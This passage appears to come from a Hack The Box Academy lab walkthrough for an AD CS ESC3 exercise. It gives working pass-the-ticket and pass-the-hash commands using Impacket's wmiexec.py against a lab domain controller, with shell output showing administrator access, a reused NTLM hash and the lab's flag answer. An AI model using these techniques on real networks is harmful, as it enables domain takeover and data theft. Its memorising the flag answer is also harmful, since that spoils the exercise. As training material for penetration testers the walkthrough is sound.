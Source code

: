 With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

When reading the contents of the file `C:\Users\haris\Desktop\flag.txt`, students will attain the flag `HTB{ESC3_EKU}`:

Code: cmd

```cmd
more "C:\Users\haris\Desktop\flag.txt"
```

```cmd-session
C:\>more "C:\Users\haris\Desktop\flag.txt"

HTB{ESC3_EKU}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\haris\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\haris\Desktop\flag.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\haris\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC3_EKU}
```

Answer: `HTB{ESC3_EKU}`
